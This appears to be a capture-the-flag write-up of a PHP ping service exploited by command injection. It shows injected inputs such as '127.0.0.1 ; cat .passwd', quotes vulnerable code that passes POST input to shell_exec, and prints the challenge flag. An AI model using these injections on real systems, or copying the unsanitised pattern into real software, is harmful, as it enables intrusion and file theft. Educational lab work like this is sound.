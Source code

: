 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 9
---
```


> Find a vulnerability in this service and exploit it.
>
> The flag is on the `index.php` file.

![1](https://github.com/Knign/Write-ups/assets/110326359/d1e2fbf5-dde6-4680-9880-434f849e9474)

Let's input `127.0.0.1` as the input field is suggesting.

![2](https://github.com/Knign/Write-ups/assets/110326359/46f87312-d86a-4939-850e-15b020fbf31a)

We can see that our input is used to execute a `ping` command.

We know the flag is on the `index.php` file. In order to `cat` the flag we need to use the `;` separator.

## User Input
```
127.0.0.1 ; cat index.php
```

![3](https://github.com/Knign/Write-ups/assets/110326359/f9499c2f-64bc-4eb4-939f-37f2c9975779)

Looks like our input was processed properly. Let's check the source code.

![4](https://github.com/Knign/Write-ups/assets/110326359/bd7601d5-dff6-4840-94ae-b3d43248550b)

The source code reveals an interesting piece of code.
## PHP code
```php
<?php 
$flag = "".file_get_contents(".passwd")."";
if(isset($_POST["ip"]) && !empty($_POST["ip"])){
        $response = shell_exec("timeout -k 5 5 bash -c 'ping -c 3 ".$_POST["ip"]."'");
        echo $response;
}
?>
```
The line `shell_exec("timeout -k 5 5 bash -c 'ping -c 3 ".$_POST["ip"]."'")` executes a shell command based on user input ($_POST["ip"]).

The line `"".file_get_contents(".passwd").""` reads the content of a file named `.passwd` and appends it to the `$flag` variable. 

Let's modify our input to `cat` the `.passwd` file.

## User Input
```
127.0.0.1 ; cat .passwd
```

![5](https://github.com/Knign/Write-ups/assets/110326359/852de8c6-c743-4a7f-bcc9-01dbd8f42823)

## Flag
```
S3rv1ceP1n9Sup3rS3cure
```
